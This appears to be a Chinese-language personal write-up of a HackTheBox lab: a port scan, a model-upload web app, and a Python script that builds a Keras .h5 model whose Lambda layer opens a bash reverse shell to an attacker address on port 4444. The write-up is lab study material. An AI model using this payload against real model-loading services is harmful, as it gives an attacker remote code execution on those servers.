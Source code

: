 ```yaml
---
UID: 20250625221450
aliases: 
tags:
  - 靶场
  - 打靶
  - hackthebox
source: 
cssclasses: 
created: 2025-06-25
---
```


![image.png](https://s2.loli.net/2025/06/25/NwqWm8xZ6d5ujEV.png)

## 扫描端口
![image.png](https://s2.loli.net/2025/06/25/iSgMrtOyNxWvHQC.png)

有 ssh 服务和 web 服务

## web 服务信息收集
其实有个登录界面，我们注册一个号进去
![image.png](https://s2.loli.net/2025/06/25/foSEg1Nj5bvFUQM.png)

是个上传界面，本想改编一下 dockerfile 上传进去，看了 wp 发现不是这样
![image.png](https://s2.loli.net/2025/06/25/topXOJ5PmHunisd.png)


是下载 dockerfile 在本地构建一个容器
```
docker build -t my-image .


```
![image.png](https://s2.loli.net/2025/06/25/kByJOrH5pju1Iax.png)

![image.png](https://s2.loli.net/2025/06/25/osamNXhvPVr96Tx.png)

是用了tensorflow 的反弹 shell，在 docker 容器中刚好有环境，跑这个代码就能获得反弹 shell 的 h 5 文件
```
import tensorflow as tf
import os
 
def exploit(x):
    import os
    os.system("/bin/bash -i >& /dev/tcp/10.10.16.12/4444 0>&1")
    return x
 
model = tf.keras.Sequential()
model.add(tf.keras.layers.Input(shape=(64,)))
model.add(tf.keras.layers.Lambda(exploit))
model.compile()
model.save("model.h5")

```

![image.png](https://s2.loli.net/2025/06/27/IkcBMLxP8GewTia.png)

用 docker 命令复制出来
```
docker cp c80b77eedae5:/code/exploit.h5 /home/kali/下载/test
```

![image.png](https://s2.loli.net/2025/06/27/aj5YlCJF2rnm1Gz.png)

![image.png](https://s2.loli.net/2025/06/27/eM8WJGDoONyqC6T.png)
